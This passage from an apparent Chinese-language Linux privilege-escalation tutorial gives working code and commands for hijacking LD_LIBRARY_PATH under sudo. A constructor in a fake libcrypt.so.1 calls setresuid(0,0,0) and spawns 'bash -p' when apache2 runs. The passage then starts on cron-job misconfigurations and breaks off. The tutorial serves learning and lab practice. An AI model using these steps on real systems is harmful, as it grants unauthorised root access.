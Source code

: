 ##### 2.创建具有以下内容的文件(library\_path.c)：

```c
#include <stdio.h>
#include <stdlib.h>
static void hijack() __attribute__((constructor));
void hijack() {
unsetenv("LD_LIBRARY_PATH");
setresuid(0,0,0);
system("/bin/bash -p");
}
```

![image-20210704103702129](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-8b73148569fdf924e87844546b1b4ca4c1175c8c.png)

##### 3.将library\_path.c 编译成libcrypt.so.1:

```php
gcc -o libcrypt.so.1 -shared -fPIC library_path.c
```

##### 4.使用 sudo运行 apache2，同时将LD\_LIBRARY\_PATH环境变量设置为当前路径（我们汇编library\_path.c）：

```php
sudo LD_LIBRARY_PATH=. apache2
```

![image-20210704103723147](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-09ce44ce38791c1e387866d649c7cb1e8b1554ee.png)

0x08 Cron jobs
==============

前言
--

Cron jobs是用户可以安排在特定时间或间隔运行的程序或脚本。  
Cron jobs与拥有它们的用户的安全级别一起运行。  
默认情况下，使用环境变量有限的`/bin/sh` shell

Cron tables
-----------

Cron tables存储了Cron jobs的配置  
User Crontabs通常位于`/var/spool/cron/` or `/var/spool/cron/crontabs/`  
system系统的crontab位于`/etc/crontab`

文件权限
----

与 Cron jobs关联的文件权限配置错误可能导致提权  
如果我们可以编写到作为 cron jobs的一部分运行的程序或脚本，我们可以用我们自己的代码替换它。

实操
--

### 1.查看system-wide crontab的内容：
